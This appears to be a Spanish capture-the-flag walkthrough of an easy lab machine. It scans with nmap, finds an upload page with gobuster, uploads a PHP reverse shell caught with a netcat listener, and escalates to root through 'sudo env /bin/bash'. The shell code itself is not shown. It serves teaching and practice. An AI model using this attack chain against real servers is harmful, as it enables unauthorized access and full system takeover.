





# Máquino upload

---

Dificultad -> Fácil

---

Empezamos con nmap

```shell
nmap -p- --open -sVC --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Upload here your file
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Solo puerto 80, accedo desde el navegador y veo lo siguiente



Veo una página para subir archivos, antes de nada hago fuzzing con gobuster

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html -t 64
```

```shell
/index.html           (Status: 200) [Size: 1361]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 1357]
/server-status        (Status: 403) [Size: 275]
```

Encuentra un /uploads donde se suben los archivos de upload.php



 Viendo esto, subo una revshell php de [revshells](https://www.revshells.com/) .

La abro en /uploads mientras que escucho con `nc -lvnp 4444` y estoy dentro de la máquina



Antes de nada, hago [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/#) y `sudo -l` 



Vemos que podemos ejecutar el binario env como root, asi que busco en [GTFOBins](https://gtfobins.github.io/gtfobins/env/#sudo) y veo que simplemente con `sudo env /bin/bash/` abro una terminal como root



Y simplemente así somos root :)


